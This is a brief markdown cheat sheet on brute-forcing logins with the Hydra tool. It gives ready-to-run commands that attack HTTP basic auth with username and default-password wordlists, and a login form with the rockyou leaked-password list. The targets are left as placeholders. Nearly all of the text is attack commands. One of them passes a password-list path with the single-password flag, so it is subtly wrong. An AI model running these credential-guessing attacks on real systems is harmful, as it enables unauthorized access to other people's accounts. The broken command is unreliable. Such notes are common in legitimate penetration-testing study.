# Brute Forcing using Hydra

In order to install it, type ``` sudo apt install hydra -y ``` or [download here](https://github.com/vanhauser-thc/thc-hydra)

For the purpose of attacking HTTP basic auth, type :
 ```
 hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p admin -u -f SERVER_IP -s SERVER_PORT http-get /

 ```
 or
 ```
 hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p /usr/share/SecLists/Passwords/Default-Credentials/default-passwords.txt -u -f SERVER_IP -s SERVER_PORT http-get /

 ```
 In order to attack some page wich contains form, you must use the **http-post-form** module of hydra. There's an example :
```
 sudo hydra -l admin -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -f $ip -s $port http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

```
